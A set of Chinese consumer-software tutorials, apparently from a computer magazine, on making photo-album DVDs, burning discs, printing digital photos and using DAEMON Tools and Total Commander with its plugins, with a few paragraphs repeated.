特效与转场效果可使我们的相册显得更加专业，MemoriesOnTV的特效功能很强大，它可使原本静态的照片产生一种极富动感的运动效果，感觉就像用摄像机拍摄出来的一样。将工作模式切换至“特效”状态后，在上部窗口里选择一张照片，打开窗口左下角的“图片特效”卷展栏，可选用“放大”、“缩小”和“平移”等各种运动效果。MemoriesOnTV的转场效果也十分丰富，打开“转换特效”卷展栏就可以看到，如果你不想逐张设置转场效果的话，可使用“随机”选项和“全部应用”命令，让各种转场效果随机出现，十分方便。 如果你认为这样过于简单的话，还可以分别设置。双击添加的第一张数码照片，就可以打开“照片\视频设置（picture/video Setting）”窗口，在这里可以给单张照片添加文字、设置特效、添加音乐、设置背景、放大、缩小变换等。

### 添加背景音乐

为了在浏览照片的时候增加亲切感并渲染气氛，我们还可以为照片添加背景音乐。点击软件主界面上的“Music”标签项，然后点击下面的添加按钮，把本地硬盘上的音乐文件添加到相册区段中。还可以设置区段播放音乐的开始点，只要双击刚刚添加的音乐文件，在弹出的修剪音乐窗口中来截取音乐片段。另外可以通过“Mix Vol”滑块来设置音量大小音乐是“Fade in”（淡入）、“Fade out”（淡出）、“Loop”（循环）等切入方式，设置完成后还可以点击下面的播放按钮进行预览。

### 制作光盘选单及生成视频文件

接下来我们设置相册的交互菜单，切换到“Disc menu”标签项，这里软件为我们提供了很多现成的模板供选择，如果自己感觉这些模板不是很合适的话，还可以自定义交互菜单的背景与音乐。甚至可以自定义交互菜单的图片，只要双击模板上的图片，然后在弹出菜单中设置就可以了。可以使用光盘选单式播放是MemoriesOnTV的亮点，这样制作出来的光盘相册可方便地使用遥控器选择观看，特别适合光盘相册的制作。

以上步骤完成后，点击软件主界面上的“Perview”按钮，就可以看到相册的预览画面了。 MemoriesOnTV支持刻录光盘，但兼容性并不好，我们最好选择在本机创建视频文件，然后再选择其他专业视频刻录软件刻录成DVD或VCD碟片。一张制作精美效果专业的视频光盘相册就完成了，让你可以快乐地和亲朋好友分享了。

##### 3. 视频DVD刻录简介

转化完毕后我们就可以刻录VCD/DVD。过去常使用VideoPack或者Easy VCD Creator等软件，VCD Creator是Easy CD Creator中的一个模块。启动Video CD Creator后，可按向导（Wizzard）的提示进行刻录，也可按“取消”键关闭向导。等出现添加文件的界面后，先把MPG文件拖到左边窗口中，Video CD Creator对MPG文件进行格式检验，然后再把左边窗口中的播放项拖到右边的窗口中，即可刻录成VCD。Video CD Creator的制作向导还可以让用户设计出简单的播放选单，在正式刻录以前还可以按照用户的设计先行试播。

而新版的Nero中已经集成了VCD/DVD光盘刻录功能，我们在准备好MPEG-1/MPEG-2格式的素材文件后，只需简单地按照向导进行操作即可刻录出可在普通家电上播放的VCD/DVD碟片。另外Nero公司还有一款专业的DVD视频刻录软件：NeroVision Express，刻录出来的DVD能够完美地兼容DVD播放机。NeroVision Express支持两者视频来源，一种是视频设备捕捉，另一种是视频文件，而且支持AVI (DivX)、DAT、MPEG等多种格式，NeroVision Express会自动完成转换。甚至还可以进行简单的视频编辑，允许用户添加字幕、特效、菜单制作等。

向导的帮助下完成一切步骤之后，按下Burn按钮即可开始刻录，整个过程十分简单。

#### 三、传统分享方式：数码照片打印冲印

数码照片除了使用网络、视频DVD等方式进行共享外。还可以用传统的方式进行共享，就是打印或冲洗成照片。毕竟很多时候传统的才是最方便的。

##### 1. 数码照片输出方式概述

数码照片的输出方式目前主要有以下几种：

- 一是喷墨打印。即使用彩色喷墨打印机输出，现在大多数彩色喷墨打印机都声称具备“照片打印功能”，配合专门的照片打印纸的确也得到效果相当不错的数码照片，最大可打印A4大小的照片。有一些产品甚至能够不连接电脑，而直接连接相机或读取存储卡上的图片文件进行打印。随着技术发展，喷打输出数码照片的效果已经非常不错，而价格也越来越低，是家庭用户的首选。
- 二是专业的数码打印机，一般采用热升华的打印方式，体积小巧，大多可直接与特定品牌的数码相机连接直接打印，打印效果很好，但通常只能打印A6大小的照片，而且机器本身和耗材的价格都比较昂贵。另外有部分行业也采用彩色激光打印的方式输出，最大输出幅面能达到A3以上，但设备是比较昂贵的。
- 三是数码扩印，即使用专门的数码彩扩机，像传统胶片一样，用感光相纸进行数码照片的扩印，这是最便宜、效果最好，也是使用最为广泛的数码照片输出方式。数码彩扩机一般采用CRT、LCD、激光等三类不同的技术，扩印质量和成本都依次递增。

##### 2. 喷打使用技巧点滴

尽管现在数码照片的输出和发布有很多方式，但是自己在家里用打印机打印数码照片仍有很多不可替代的优势。比如使用方便、保护隐私、大幅输出时成本较低等，以及可以实现打印不干胶、T恤转印纸等特殊应用，要获得较好的喷打效果，我们需要掌握一些技巧。

### 设置合适的打印参数

我们在使用喷打时，有一个很重要的技巧就是要设置合适的打印参数。一般在打印文字或草稿时可以选择草稿方式打印，这样能大大提高打印速度并节省墨水。而在打印正式的照片时则应选择照片打印方式，才能获得较好的打印效果。我们既可以使用驱动程序定义好的现成打印方式，也可以根据使用的打印纸张等不同设定自己的自定义方式。可反复尝试，从而找到省墨和打印品质的平衡点。

要获得较好的打印效果还需根据打印机的特点对照片作适当的后期处理，这也需要反复实践才能掌握合适的处理方法。

要注意打印规格对原始照片分辨率的要求，基本原则是，打印尺寸越大，原始照片的像素也应越高，不过目前大多数数码相机像素至少在600万以上，打印A4尺寸的照片可以获得很好的效果。

### 解决打印偏色现象

彩色打印机打印输出偏色是很常见的现象，屏幕显示色彩是基于RGB混色原理，而彩喷再现色彩是基于CMYK减色原理。由于色彩生成的基本原理的差异，喷打打出的图片色彩几乎不可能与屏幕显示的色彩一致。此外与使用墨水的厂家不同、使用的纸张类型不同或纸张的厂家不同也都有关系。目前绝大多数彩色喷墨打印机的驱动程序均具有颜色调整设置，可随时视色偏程度调整。另外使用Photoshop等高级图像处理软件对图片颜色进行调整，也可在一定程度上解决此问题。若某种颜色严重缺色时，可能是该种颜色的墨水将用尽，及时填充墨水即可解决。

我们也可以通过校正显示器色彩来解决此问题， 通常较高档的CRT显示器有色温预设、RGB分量调整等功能，这为显示器校准打下了基础。目前大部分主流显示器都支持sRGB色彩校正功能，配合支持此功能的打印机，就可以使打印输出画面在精确度、色彩，色差等方面与我们在屏幕中看到的达到一致，实现“所见即所得”。现在很多显示器还附带色彩校正的软件，如三星Natural color色彩校正软件。使用它可以实现丰富的色彩校正，比单一的S-RGB标准有更为丰富的调节范围。

### 利用直接打印功能

如果你的照相机和打印机均符合PictBridge标准，可以直接从照相机打印到打印机。在PictBridge协议的打印中，用户可以输出数码相机上显示的图像、照片索引，其附加功能可以做到打印图像的局部、打印多份照片、在照片上添加日期或是制定打印尺寸。你必须使用PictBridge照相机配带的PictBridge电缆将照相机直接与打印机的PictBridge端口相连。(如果数码相机随机没有带PictBridge专用电缆，可尝试用数码照相机带的那条连接电脑的USB线连接到PictBridge接口)。

到打印图像的局部、打印多份照片、在照片上添加日期或是制定打印尺寸。你必须使用PictBridge照相机配带的PictBridge电缆将照相机直接与打印机的PictBridge端口相连。(如果数码相机随机没有带PictBridge专用电缆，可尝试用数码照相机带的那条连接电脑的USB线连接到PictBridge接口)。

### 加注墨水和连续供墨

我们知道，哪怕是价格最“便宜”的原装耗材价格都高得离谱，因此使用兼容耗材或自行加墨就是节省打印成本的重要方法，不同品牌的喷打加墨方式不尽相同，这里不再详述，大家可以根据自己使用的打印机品牌，自行搜索相关具体方法并尝试。

除了加注墨水，使用连续供墨系统也是降低打印成本的好方法，不过一次性投入较大，而且影响美观，对于打印量不是很大的家庭用户而言，并不是太有必要采用。

##### 3. 网上冲印服务简介

尽管现在数码冲印在大多数大城市已经比较普及了，但在一些中小城市尤其是西部城市还存在网点少、价格高等问题，因此方便、便宜的网上冲印就是很好的选择。目前网上冲印站点很多，比较有名的有“易拍网”(www.e-pic.com)、“我的相册”(http://www.wodexiangce.cn/)等，我们选择数码冲印站点，除了价格外，还应注意使用设备的种类、冲印质量、交货速度等情况。

不同网上数码冲印站点具体冲印过程不完全相同，但大致过程都是差不多的。首先会要求你注册成为其网站的会员，然后登录并上传图片，选择需要冲印的图片尺寸大小、特殊要求等，最后生成定单并通过邮局汇款、网上支付等途径付款，一般会在付款后一周内完成冲印并邮寄或送货上门。下面以“易拍”网影像中心提供的数码照片冲印流程为例作具体说明：

- 新用户注册或会员登录→用户上传图片至个人像册→在个人像册中决定冲印某照片，并确定冲印规格→生成定单→选择支付方式和配送方式→用户进行网上支付或邮局汇款方式支付货款→支付成功之后，开始按定单生产制作→制作完成按用户选择的配送方式进行寄送。

而在“我的相册”网上传照片进行网上数码冲印也是非常简单快捷的，有“客户端软件上传”、“页面插件上传”、“页面单张上传”三种上传方式，大家可以根据需要选择使用。

##### 4. 数码冲印的注意事项

冲洗规格与像素的关系：冲印规格的对原始照片要求的原则是，冲印尺寸越大，原始照片的像素也应越高，具体你可参考冲印网站提供的标准。一般来说，200万像素就能冲洗品质很好的6英寸照片了，而现在数码相机像素基本都在5百万以上，只要不冲洗12英寸以上的大照片都可以满足需要。

冲印照片的剪切问题：不是所有的数码相机都能拍出35mm胶片3:2比例的照片，大多数数码照片的比例都是符合显示器显示的4:3。而且，不同的冲印尺寸对照片高宽比的要求也不同。这一直是一个比较难解决的问题。负责的数码冲扩站点，会尽可能将你要冲印的照片与你选择的冲印尺寸相符。但是一般会按4x6的比例将照片自动处理，比如照片长宽比例小于1.5(6/4)的，会上下自动裁剪。照片长宽比例大于1.5(6/4)的，会左右自动裁剪。如果你的照片内容要全部印出，需要在订单中特别注明，否则上下会留白边或自动将照片边缘剪切掉。按我的经验来说，在数码冲印前，我们最好自己对图片文件进行比例调整。可以使用Photoshop等通用图像处理软件对照片进行裁剪及比例调整，也可使用PhotoCap等专门的数码照片处理软件，自动批量处理。现在有的冲印站点提供“全景照片”规格，与相对应的普通照片相比尺寸上要大一些，如全景5寸（5D）冲印出来的照片就是比普通5寸实际照片宽0.6厘米，全景6寸（6D）冲印出来的照片比普通6寸实际照片宽1.2厘米。由于一般数码相机的拍摄照片比例与相对应的全景尺寸比例相一致，所以冲印全景照片就能够保证照片画面的完整性，不过这种规格在价格上稍贵一些。

最后我们要注意光面纸与绒面纸的区别，光面纸表面光滑，清晰度好，亮度高，一般适合于产品照或风景照。而绒面纸表面粗糙，有磨沙感，不容易在照片上留下指纹，亮度较低，一般适合于生活照及女性艺术照。另外现在有些数码冲印店还提供数码短版图册制作的服务，可以将数码照片装订成杂志或书的形式，用这种方式分享你的数码照片就更加有个性了。

- 有“客户端软件上传”、“页面插件上传”、“页面单张上传”三种上传方式，大家可以根据需要选择使用。

### DAEMON Tools 使用小教程

◆文 / TMG.rsq

引言：DAEMON Tools，一个很好的虚拟光驱工具，支持PS。有了它你就可以将CUE、ISO、CCD、BWT等镜像文件直接Mount成光盘使用，而无须每次启动都插进光盘。既减少了真实的物理光驱的使用次数，延长了光驱寿命，又解决了从网上下载的一些镜像文件的读取问题。下面笔者就以最新版本DAEMON Tools 4.10为例简单介绍一下其安装、汉化以及使用方法。

| 项目 | 详情 |
| :--- | :--- |
| 软件名称 | DAEMON Tools |
| 软件版本 | 4.10 |
| 软件分类 | 虚拟光驱 |
| 软件大小 | 1.81 MB |
| 应用平台 | Windows 2000/XP/Vista |
| 软件语言 | 英文/简体中文 |
| 下载地址 | http://search2.newhua.com/search.asp?Keyword=DAEMON%20Tools%20 |

#### 一、DAEMON Tools 4.10的安装方法

首先，从网上下载DAEMON Tools 4.10 X86 32 Bits (with SPTD 1.50)正式英文版及其简体中文语言包。双击DAEMON Tools 4.10 X86 32 Bits安装文件。在弹出窗口中单击“Next”，进入下一安装页面。此处为阅读条款，说明你要注意的事项，不用管它，单击“I Agree”。

这时出现几个选项供你选择，依次为DAEMON Tools搜索工具条、桌面快捷方式、菜单栏快捷方式，可根据自身的需要进行勾选。选择完成后单击“Next”。

下面出现的窗口让你选择是否将搜索DAEMON Tools的页面定为浏览器的首页，一般可以将其勾选去掉，单击“Next”。

这里需要选择软件保存的路径，可根据自己的硬盘空间选择其路径，注意硬盘的剩余空间大小至少要在1.6MB以上。单击“Install”进入安装窗口。

这时不用做任何的操作，等一到两分钟就可以完成安装。单击“Finish”就完成了整个安装，运行软件后在桌面的右下角出现一个红色的图标，将鼠标移动到图标上右击便可对其进行操作。

下面再介绍一下简体中文包的安装方法：

退出系统栏图标，打开简体中文包的安装文件。单击“下一步”，进入下一窗口。这时要注意的是一定要选择DAEMON Tools 4.10 X86 32 Bits (with SPTD 1.50)的安装目录，单击“下一步”，这时会出现一个对话框，单击“是”。单击“安装”便将其安装到指定目录。

单击“完成”便完成了版本的汉化。安装汉化后，下次运行时即自动转换为中文界面。如需要手动设置，右击系统栏图标，进入“Options-Language”菜单，选择“简体中文”，即为中文界面。

#### 二、DAEMON Tools 的使用方法

##### 1. 设定虚拟光驱的数量

将鼠标移动到桌面右下角DAEMON Tools的红色图标上右击，在出现的菜单项里选择“虚拟CD/DVD—ROM”，在其下拉菜单中选择“设置设备数量”，然后会出现一个菜单，这里DAEMON Tools最多可以支持4个虚拟光驱，可以按照自己的需要设置，笔者在这里设置两个虚拟光驱。设置完驱动器的数量后，在“我的电脑”里面就可以看到2个新的光驱图标。

##### 2. 加载镜像文件

右击DAEMON Tools的红色图标，在出现的菜单项里选择“虚拟CD/DVD—ROM”，“设备1：[I：]无媒体”，选择“装载映像”命令，这时会出现一个窗口，选择镜像文件所在目录。

选择镜像文件，单击“打开”按钮。这时打开“我的电脑”便可发现虚拟光驱中已经插入了虚拟光盘，双击便可对其进行安装或对里面的文件进行复制、粘贴。这时基本的工作已经完成，双击加载便可进行软件的运行了，使用方法和物理光驱相同。

##### 3. “模拟”菜单的设置

一般情况下经过上述一番操作便可进行软件的运行了，但有时候你会发现加载镜像文件后虚拟光驱中并无反应，或运行时老是出错，这时可以试试“模拟”菜单中的选项。

“模拟”菜单中有四个选项，如果你的镜像文件是MDS格式的话，则选择“RMPS”模式；如果有光盘保护技术的话选择“Safedisc”选项；如果还不行的话就将所有选项均打开，这时图标会变成绿色。

##### 4. “选项”菜单的用处

选项菜单中有六个项目，分别为安全模式、自动装载、使用中检查、自动开始、托盘图标以及检查更新。

（1）自动装载：当你导入了一张镜像文件，选择了这个选项，系统重新启动或者关机后再开机，这张镜像光盘会自动加载。对于常玩游戏或者镜像文件需要经常使用的朋友，建议选择这一项。

（2）自动开始：选择这个选项，系统在启动时会自动加载，可以将其勾选去掉，以免启动速度变慢。

另外，安全模式提供了软件运行过程中的安全保障；使用中检查主要配合安全因素做配置性检查；而托盘图标便是在桌面右下角生成图标；检查更新则是检查新版本以便及时下载使用。

#### 【注意事项】

- （1）更新V4说明：支持4虚拟驱动，仅支持32位，Drive-vendor 和 versionnumber（版本号）随机产生，完全实现AutoInsertNotification（可以在控制面板中开关），另外，支持所有流行拷贝保护。

- （2）如果在安装过程中需要换光盘，建议先把原来里面的镜像文件卸载再导入新的镜像文件，这样运行速度比直接导入新文件要快得多。

- （3）要注意虚拟光盘的格式，经常使用的有ISO、CUE、MDF，有些格式在Windows XP中可能会被默认以RAR形式打开，这样是没有用的。

### 自力更新玩转TC最新版本

◆文/王志军

如果你还没有听说过TC这款软件，那么可真是太遗憾了。其实，TC的历史可以追溯到1995年，当时流行的还是MS-DOS操作系统，有许多著名的文件管理软件，例如DOS Commander Center、DOS Controller、Norton Commander等，但自从微软推出Windows操作系统以来，只有Windows Commander一直坚持了下来，而Windows Commander独创的双窗口操作模式也已成为众多文件管理工具的典范。

从5.50版本开始，迫于微软的压力，微软认为Windows Commander名称中的“Windows”侵犯了自家的商标版权，Windows Commander因此不得不更名为Total Commander(以下简称“TC”)，如果朋友们希望了解更多内幕的话，可以访问http://www.ghisler.com/name.htm页面查看。

#### 一、下载和安装

目前，TC的最新版本是7.01，虽然是共享软件，但未注册时只会在每次启动时弹出一个对话框要求用户选择相应的数字，并不会影响你使用完整的功能，而且TC还提供了包括简体中文在内的语言包，确实是非常难得，可以从http://www.ghisler.com/下载最新版本和简体中文语言包。

#### 二、TC的鲜明特色

很多朋友都将TC作为资源管理器的替代工具，不过TC的功能远远超越了资源管理器，具体来说有下面四大特色：

- 允许跳过：在执行复制、删除、剪切等文件操作时，TC允许跳过某些文件继续后面的操作，而资源管理器下即使只有一个文件无法执行操作的话，也往往会导致整个操作失败。
- 自动检测目标盘：在执行复制、移动等文件操作时，TC会自动检测目标磁盘的可用空间，而资源管理器只是在执行一段时间后当发现空间不够的情况下才会报错。
- 后台执行操作：在执行复制、删除、剪切、移动、压缩、解压缩等操作时，我们都可以选择在后台执行，必要的时候还可以暂停当前操作，这样就大大节省了系统可用资源。
- 复制时自动去除“只读”属性：如果你是在资源管理器中从某张光盘中复制文件，那么会同时将“只读”属性一并复制过来，而TC则会自动修改为“存档”属性，这样就方便多了。
- 不断扩展的插件：就像Firefox那样，世界上有不计其数的用户为TC开发各种各样的插件，这些插件大大扩展了TC的功能。

#### 三、熟悉TC的双窗口界面

TC的主界面是文件管理软件所特定的双窗口界面，如图1所示，主要组成部分如下。

菜单栏：分文件、选择、命令、网络、显示、设置、开始、帮助等菜单栏，注意如果你安装了不同汉化作者提供的语言包，那么菜单栏的组成和菜单命令数量可能会有所区别。

工具栏：默认设置下，这里提供了刷新来源窗口、文件夹树、列表、详细资料、反向选择、后退、前进、压缩、FTP连接、新建FTP连接、记事本、写字板、控制面板等按钮图标，其实大部分按钮图标都没有什么实用价值，因此我们完全可以重新定义。

如果你觉得某些按钮图标不再需要，可以右击后从快捷菜单中选择“删除”，而添加新按钮图标的操作非常简单，只要找到相应程序的可执行文件(*.exe)，选中后按住鼠标左键直接拖曳到工具栏的合适位置释放，然后选择“改变”命令添加一些必要的提示信息即可(见图2)。



驱动器按钮：默认设置下，会在左右窗格同时显示驱动器按钮栏和驱动器列表，包括软盘驱动器、硬盘驱动器、光盘驱动器、网络邻居等，点击后即可直接跳转。

操作窗格：点击驱动器按钮后即可分别在左右窗格中显示不同的来源内容，当然你也可以显示相同的来源内容，例如在右窗格显示左窗格文件的内容，当然这需要事先在“显示”菜单中选择“快速查看”方式。

状态栏：显示相应的操作信息，例如选中文件夹后会显示文件数、所占用的磁盘空间等。

命令行：在这里可以完成所有命令行操作，不用再从“开始”菜单逐层进入。

功能键：这一排功能键其实很少有用户使用，不过放在这里也可以起到提示的作用，免得临时遗忘。

这里需要说明的是，虽然TC提供了左、右两个窗格，但无论进行任何操作，我们只能在同一时间激活其中一个窗格，被激活的窗格标题栏会显示为白色，而未激活的窗格则会显示为灰色，你可以通过键盘上的Tab键或用鼠标单击的方式在两个窗格之间切换。



内激活其中某一个窗格，而无法同时进行操作。

#### 四、常用操作入门

有些朋友可能会问：TC的双窗格操作模式究竟有些什么优点？为什么说它是众多文件管理工具的标准？这种操作模式由两个列表窗格所组成，两个窗格可以显示相同的内容，也可以显示不同的内容，这样无论是复制、移动、解压缩、显示文件内容，就非常方便了。

我们使用TC最主要的目的当然是用来替代Windows自带的资源管理器，例如完成复制、移动、删除、重命名、新建等常规操作。一般来说，我们可以采取如下几种操作方式。

直接拖曳：当需要进行复制、移动操作时，使用鼠标拖曳是最简单、最方便的一种操作方式，而且由于操作效果会在另一窗格中反映出来，因此十分方便。另外，在执行复制、移动等文件操作时，TC会自动检测目标盘的可用空间，而资源管理器则无法实现这一点。

功能键：在窗口底部有一排功能键按钮，点击后即可实现相应的功能，不过由于大部分操作还需要再一次进行确认，因此颇为麻烦。

快捷键：例如Ctrl+M可对文件进行批量重命名，Alt+F7可搜索文件，Shift+F6可对单个文件进行命名，如果能够熟记常用命令的快捷键，那么绝对能大大提高操作效率。下面是TC的一些常用快捷键。

F3：这是使用频率最高的一个快捷键，可以用来查看文本文件的内容，安装插件后还可以在Total Commander中直接查看DOC、XLS格式的文件，可惜的是无法进行编辑操作。另外，按下F3键，还可以用来播放MP3音乐和AVI影片、查看BMP/JPEG等格式的图片文件。

F4：编辑文本文件，选中需要编辑的文件，按下F4键后就可以调用记事本程序打开文件，当然你也可以重新设置所调用的程序。

F5：复制文件，将选中的文件复制到另一个窗格中。

Shift+F5：复制到当前窗格所在的文件夹中，常用于拷贝文件副本以备用。

F6：移动文件，将选中的文件移动到另一窗格中。

Shift+F6：文件重命名。

F7：新建文件夹，可以一次输入多级目录。

F8/Del：删除文件到“回收站”，如果按住Shift键的话，则直接删除而不进入“回收站”。

Alt+F5：压缩文件。

Alt+Shift+F5：压缩文件的同时删除原文件，也就是说将文件转移到压缩包中。

Alt+F6/Alt+F9：解压缩文件，可以同时选中多个压缩包文件一次性解压缩。

Ctrl+PageDown：打开EXE格式的自解压文件查看其中某个文件的内容，这样就不会自动运行了。

Ctrl+D：常用文件夹列表，把你经常用到的文件夹放在这个列表里。

Alt+↓：历史文件夹列表，可以快速回溯到你曾经到过的某个文件夹。

Alt+Shift+Enter：计算当前窗格下所有文件夹的占用空间，设置后再点击顶栏的“大小”可使文件夹参与排序，迅速找到占用空间最大的文件夹。

Ctrl+M：批量更改文件名。

Alt+F7：打开搜索对话框。

Shift+Alt+F9：校验压缩文档，检验下载的东西很方便，功能较WinRAR要强大得多。



#### 五、高级设置

如果你希望TC工作得更为方便和快捷，那么请从“配置”菜单下选择“选项”，打开图3所示的“配置”对话框，所有设置工作均在这里完成。



配置对话框中的设置选项包括：布局、文件类型、操作方式、显示、字体、制表符、其他等。

#### 1.外观

建议让工具栏、驱动器按钮、驱动器列表、当前文件夹、标题行、状态栏、命令行、功能键按钮等全部显示，“文件夹标签”是否显示可根据自己的实际需要而定。

#### 2.显示

默认设置下TC不会显示隐藏/系统文件，如果需要显示的话，可以在“显示”选项卡中设置；由于TC的文件列表、主窗口、对话框字体都默认使用Microsoft Sans Serif的8号字体，因此在显示中文资源时看起来不那么舒服，我们可以在“字体”选项卡中调整为自己所喜爱的字体；“制表符”下应该将“文件大小显示”和“标题栏/状态栏显示”统一设置为“动态(KB/MB/GB)”，这样可以精确显示到小数点后一位，否则默认设置为“字节”。

#### 3.操作方式

默认设置下，TC只允许一个Total Commander程序运行，而且像NC一样使用鼠标右键选择文件，如果你觉得不太习惯的话，可以重新设置为使用鼠标左键选择，这里还有一个很重要的选项，就是要选择文件时可以设置“只选择文件”或是“同时选择文件夹”；

#### 4.插件

在这里你可以对所有的插件进行管理，选择“下载”可以直接链接到官方主页下载新的插件，对于已安装的插件，选择“配置”按钮可以打开对话框，在这里我们可以重新调整各个插件的位置，也可以在这里删除某个插件。

#### 5.压缩程序

即使不安装相应的支持软件，TC也可以对ARJ、LHA、RAR、UC2、ACE、TAR、ZIP格式的压缩文件提供支持，当然这是使用了TC内置的展开程序，当然如果你安装了相应程序的话也可以重新定位。对于ZIP文件，我们可以选择不同的压缩方式，例如正常压缩、最大压缩、最快压缩等，而且还可以选择内置ZIP存放临时文件的文件夹，如果需要支持加密的ZIP文件，那么需要安装WinRAR或WinZIP才行。

#### 6.其他

默认设置下，当用户删除非空文件夹、替换文件、替换或删除只读文件、替换或删除隐藏/系统文件、拖放文件时，TC都会提示用户进行确认，目的是为了保持最高的安全等级，建议只需要保存“替换文件”一项即可。这里还提供了重新定义快捷键的功能，假如你感觉到某个快捷键使用起来不那么顺手，那么只需要在这里重新调整即可。

其实，TC的很多重要设置都保存在\windows\wincmd.ini文件中，其中包括Configuration、Layout、Tabstops、Packer、left、rihtr、SearchName、SearchIn、Lister等小节，有兴趣的话你不妨慢慢研究，如果你希望变更wincmd.ini文件的保存位置，可以从官方主页http://www.ghisler.com/addons.htm下载一个名为INIReloc.exe的小程序完成此项任务。

下面，笔者给出wincmd.ini文件中部分语句的说明，如果文件中没有找到可自行新建：

- [Configuration]
- AlwaysCopyInBackground=0 是否在后台完成复制操作，该值为1时总在后台复制。
- AlwaysToRoot=1 如果设为1，切换驱动器时总是转到根目录。
- CdCloseDoor=1 如果切换到光盘驱动器失败，尝试关闭光驱门，该值为0时禁止此项功能。
- DriveisCD=FGH 把F、G和H指定为光驱盘符，当TC复制文件时不将复制文件的只读属性。
- StartupScreen=0 不显示启动画面。
- CopyBlockSize=32 设置拷贝时块的大小，单位为KB，最小值为32KB。
- CopyHugeBlockSize=10240 当拷贝非常大的文件时块的大小，将绕过硬盘的缓存直接读写文件。
- CopyBlockSizeOther=32 设置在不同的硬盘间拷贝时块的大小，这个值最好小些。
- CopyHugeBlockSizeOther=1024 设置在不同硬盘间拷贝非常大的文件时块的大小。
- [Packer]
- VerifyZip=0 压缩完成后自动校验，该值为0表示关闭压缩校验。

#### 六、玩转TC的各式插件

前面已经提到，TC之所以受到广大用户的热爱，功能丰富的扩展插件是重要原因之一，如果你希望TC能够完成各种各样的任务，那么掌握常用插件的操作是非常必要的。

#### 1.插件的分类

从6.50版本开始，TC的插件分为下面的四大类：

- （1）Packer extensions：压缩程序插件
用于打开TC未提供支持的压缩包，例如ISO格式的镜像文件，这类插件的扩展名一般是*.wcx，插件安装后会进入“\totalcmd\plugins\wcx”文件夹，可以在“压缩文件”对话框中调用。
- （2）File system extensions：文件系统插件
用于访问Windows不能识别的磁盘分区(如Linux文件系统)或Palm/PockerPC等外部设备，例如恢复被删除的文件、查看系统日志、访问Linux分区、管理系统服务、系统进程、编辑注册表、接收邮件等，这类插件的扩展名一般是*.wfx，插件安装后会进入“\totalcmd\plugins\wfx”文件夹，需要双击“网上邻居”进行调用。
- （3）List extensions：查看程序插件
用于在查看程序中显示多种格式的文件，例如图像、电子表格、数据库中，这类插件的扩展名一般是*.wlx，插件安装后会进入“\totalcmd\plugins\wlx”文件夹，选择文件后按下F3键可以进行预览，按下Ctrl+Q组合键可以在另一窗格中进行快速查看。
- （4）Content plugins：内容插件
用于在文件列表中显示文件的扩展信息，例如MP3标记、图像属性等，并且可以在查找和重命名工具中使用这些信息，这类插件的扩展名一般是*.wdx，插件安装后会进入“\totalcmd\plugins\wdx”文件夹，这是6.50版本以后的TC新增加的一种插件。

#### 2.插件的安装方法

在以前的版本中，安装插件的步骤比较繁琐，首先需要释放下载回来的插件压缩包，接下来是将相关的文件复制到对应的插件文件夹中(*.wcx,*.wfx,*.wlx,*.wdx)，最后还需要打开“设置→插件”对话框，逐项手工添加，总之是比较麻烦，当然你也可以从网络下载热心网友制作的美化版本，但终究少了那么一份DIY的乐趣。

从6.5版本开始，所有的插件和语言包会附带一个名为pluginst.inf的安装信息文件，只要打开TC，找到安装文件名直接双击，TC会自动检测到安装包中的插件信息，并弹出一个安装提示框，我们只需要连续确认即可完成安装工作：确认安装、确认路径、确认关联。

当然了，假如你仍然希望手工安装插件，可以在选择安装包时按下Ctrl+PageDown组合键，或者用记事本打开wincmd.ini文件，将AutoInstallPlugins的值设置为0。

#### 3.插件介绍

TC的插件种类非常繁多，每款插件都进行介绍的话，将占用相当大的篇幅。这里，笔者只介绍十款不太常用的插件，至于那些常用的插件，可以从华军软件园或天空软件站下载TC的美化版或精装版本，其中已经内置了这些插件。

- （1）CDocProp
Office信息读取插件，支持从Word、Excel文件读取文档信息。
下载地址：http://www.totalcmd.net/plugring/CDocProp.html
打开“自定义列”窗口，单击“添加列”按钮，此时会增加一个可编辑的行，点击最右侧的“+”号，从“cdocprop”子菜单中选择需要添加到列标题中的内容，例如Title(标题)、Subject(主题)、Author(作者)、Keywords(关键字)、Comments、Last Author(最终作者)、Edit Time(编辑时间)、Last Printed(最后的打印者)、Created(创建时间)、Page Count(页数)、Word Count(字符数)，这里可以适当多选一些，反正稍后可以自行决定需要显示的列标题，这样查看起来方便多了。
- （2）VirtualDisk
虚拟光驱插件，支持加载ISO、BIN、IMG格式的镜像文件。
下载地址：http://www.totalcmd.net/download.php?id=virtdisk
这个插件的使用有一些复杂，打开“我的电脑”，找到“X:\totalcmd\plugins\wfx\VirtualDisk\VD_Driver”，这里的“X”是TC的安装盘符，右击选择“安装”，目的是安装虚拟光驱的驱动程序。
在TC中打开网上邻居窗口，这里应该会出现一个名为“Virtual Disks”的文件夹，从另一窗格将准备虚拟的镜像文件拖曳到这里，这个工作就称为“上传”，需要说明的是VirtualDisk不支持中文名称的镜像文件，而且镜像文件的路径中也不能包含中文字符，因此上传之前请先更改为英文名称，不过镜像文件件内的中文名称没有问题。接下来，双击已上传的镜像文件，你会发现TC已经为虚拟光驱自动分配了盘符“Z”，这主要是为了避免与现有驱动器出现冲突，单击“Mount”按钮即可加载镜像文件，什么时候不再需要这个虚拟光驱，再次进入这个对话框后单击“Unmount”按钮即可卸载。

### (3) MPlayer4TC:

MPlayer关联插件，支持TC调用MPlayer播放音频、视频文件。
下载地址：http://www.totalcmd.net/plugring/mplayer4tc.html
MPlayer4TC插件安装完成后，将MPlayer安装文件夹中的mplayer.exe文件和Codecs文件夹完整复制到TC安装文件夹的"\Plugins\WLX\MPlayer4TC"目录即可。以后，我们只要选择准备观看的音频或视频文件，按下Ctrl+Q组合键即可在另一窗格中快速预览，按下F3键则可以在全屏状态下进行查看，最大的好处是看RMVB影片时不需要安装Real CODEC。

### (4) AnyTag

音频信息读取插件，可以读取音频文件的ID3v1、ID3v2、APEv1、APEv2信息。
下载地址：http://www.mp3tag.de/en/tc.html
这个插件的功能与CDocProp有些相仿，通过设置可以在自定义列视图中显示音频文件的诸多信息，包括标题、艺术家、发行年代、比特率、流派、类型等内容，或者也可以在批量重命名时作为文件名称的一部分，支持AAC、APE、FLAC、MP3、MP4、M4A、M4B、OFR、OFS、OGG、SPX、TTA、WMA、WV等格式的音频文件。

### (5) CHMDir

很多电子小说和帮助文件都是CHM格式，其实CHM文档是由HTML文件转换而来的，Windows将其称为“已编辑的HTML文件”，但如果你用WinRAR或WinZIP是无法打开CHM文档的，但安装了CHMDir这款插件后，我们就可以使用TC将其打回原形。

### (6) Wipe Plugin

文件粉碎插件，可以从硬盘上彻底删除数据。
下载地址：http://www.totalcmd.net/plugring/wipe.html
